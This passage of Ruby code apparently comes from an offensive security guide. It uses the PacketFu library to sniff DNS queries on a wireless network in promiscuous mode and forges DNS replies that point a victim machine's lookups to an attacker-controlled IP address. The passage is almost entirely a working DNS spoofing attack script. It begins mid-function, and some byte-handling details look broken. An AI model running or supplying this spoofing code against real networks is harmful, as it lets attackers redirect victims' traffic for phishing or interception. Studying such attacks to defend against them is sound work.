 ```

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
  response.payload  += "\x00\x00"                 # Answer RRs: 0
  response.payload  += "\x00\x00"                 # Authority RRs: 0
  response.payload  += "\x00\x00"                 # Additional RRs: 0
  response.payload  += attackerdomain_name.split('.').map do |section| # Queries | Name: , Convert domain to DNS style(the opposite of readable method)
    [section.size.chr, section.chars.map {|c| '\x%x' % c.ord}.join]
  end.join + "\x00"
  response.payload  += "\x00\x01"                 # Queries | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Queries | Class: IN (0x0001)
  response.payload  += "\xc0\x0c"                 # Answer | Name: twitter.com
  response.payload  += "\x00\x01"                 # Answer | Type: A (Host address)
  response.payload  += "\x00\x01"                 # Answer | Class: IN (0x0001)
  response.payload  += "\x00\x00\x00\x25"         # Answer | Time to live: 37 seconds
  response.payload  += "\x00\x04"                 # Answer | Data length: 4
  response.payload  += attackerdomain_ip          # Answer | Addr
  response.recalc                                 # Calculate the packet
  response.to_w(response.iface)                   # Send the packet through our interface
end

filter = "udp and port 53 and host " + "192.168.0.21"
@capture = Capture.new(:iface => "wlan0", :start => true, :promisc => true, :filter => filter, :save => true)
# Find the DNS packets
@capture.stream.each do |pkt|
  # Make sure we can parse the packet; if we can, parse it
  if UDPPacket.can_parse?(pkt)
    packet = Packet.parse(pkt)

    # Get the offset of the query type: (request=\x01\x00, response=\x81\x80)
    dns_query = packet.payload[2..3].to_s

    # Make sure we have a dns query packet
    if dns_query == "\x01\x00"
      # Get the domain name into a readable format
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      # Ignore non query packet
      next if domain_name.nil?
      puts "DNS request for: " + fqdn

    end
    # Make sure we have a dns reply packet
    if dns_query == "\x81\x80"
      domain_name = packet.payload[12..-1].to_s # FULL DOMAIN
      fqdn = readable(domain_name)
      puts "[*] Start Spoofing: " + fqdn
      spoof_response packet, domain_name
    end

```